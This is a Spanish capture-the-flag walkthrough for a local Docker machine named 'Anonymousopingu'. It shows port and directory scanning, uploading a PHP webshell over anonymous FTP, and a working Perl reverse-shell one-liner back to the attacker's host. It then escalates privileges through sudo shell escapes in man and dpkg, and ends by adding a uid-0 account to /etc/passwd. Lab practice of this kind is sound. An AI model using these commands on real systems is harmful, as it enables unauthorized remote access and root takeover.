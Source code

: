 ```yaml
---
Maquina: Anonymousopingu
SO: Linux
Explotación: File Upload
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - analisis_imagen
  - linux
  - escala_privs
  - ssh
  - web
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241024084225.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

La página web para una web básica sobre una empresa genérica.

![[Pasted image 20241024085812.png]]

No hay nada muy a destacar salvo un formulario que cuando lo rellenas te devuelve al principio (no parece ni que almacene los datos).

![[Pasted image 20241024090228.png]]

Para seguir analizando el escenario en el que nos encontramos vamos a realizar un escaneo de subdirector mediante gobuster.

```bash
gobuster dir -u http://172.17.0.2 -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x .php,.py,.js,.txt
```

Pero tras analizar un poco lo que encontramos no parece que haya nada sospechoso, salvo la carpeta de uploads que por desgracia está vacía.

![[Pasted image 20241024091257.png]]

Tras investigar un poco el portal web vamos a pasar a investigar el FTP que también está activo y vamos a probar a entrar con usuario de anonymous.

![[Pasted image 20241024091349.png]]

Parece que si que tenemos acceso y se me ocurren ideas no muy agradables para la carpeta de upload... Esto pinta a una webshell de manual.

Vamos a intentar subir una webshell en PHP en la carpeta upload del FTP.

```bash
ftp 172.17.0.2 #Conexión al FTP

cd upload

put webshell.php #La web shell está en el directorio desde donde me he conectado al FTP
```

![[Pasted image 20241024092316.png]]

Vale ahora vamos a ver si la reconoce el portal web.

![[Pasted image 20241024092448.png]]

Parece que tocó premio, podemos ejecutar comandos. Ahora estaría bien hacer una reverse shell y poder trabajar desde nuestro equipo.

Para ello me voy a poner a la escucha en el puerto 4444 en el servidor atacante

```bash
nc -lvnp 4444
```

En el servidor atacado voy a intentar mandar una petición de conexión, como he estado mirando que servicios tiene al final voy a intentar realizarlo por perl.

```bash
perl -e 'use Socket;$i="172.17.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

Y tras ejecutar la petición vemos lo siguiente:

![[Pasted image 20241024093207.png]]

Ya estamos dentro desde terminal, ahora si podemos pasar a la escalada de privs.

Primero vamos a comprobar los permisos con un sudo -l.

```bash
sudo -l
```

![[Pasted image 20241024093318.png]]

Como podemos observar tenemos la posibilidad de ejecutar man como root... Vamos a ver que opina gtfobins de esto.

![[Pasted image 20241024093424.png]]

Parece que esto es una ventana a escalar privilegios, pero para ello necesitamos ejecutarlo como pingu, vamos a probar.

IMPORTANTE, antes de probar hay que tener un tratamiento de TTy realizado.

```bash
sudo -u pingu man man
#luego poner /bin/bash
```

Y una vez dentro del man probar a poner

```bash
!/bin/sh
```

Esto nos debería de dar una shell con el usuario de pingu

![[Pasted image 20241024102131.png]]

Ahora vamos a ver que permisos tenemos desde el usuario de pingu con el mismo comando de antes el sudo -l

![[Pasted image 20241024102223.png]]

Pues como tenemos acceso a nmap y dpkg con el usuario gladys, vamos a intentar primero con el dpkg.

```bash
sudo -u gladys dpkg -l
#luego poner /bin/bash
```

![[Pasted image 20241024102641.png]]

Y repetimos el proceso para gladys (sudo -l)

![[Pasted image 20241024102723.png]]

Como podemos observar tenemos permisos para cambiar el dueño de cualquier archivo...

```bash
sudo chown gladys:gladys /etc/passwd

echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd

su newroot #con passwd hola123 -> openssl passwd hola123
```

![[Pasted image 20241024103859.png]]
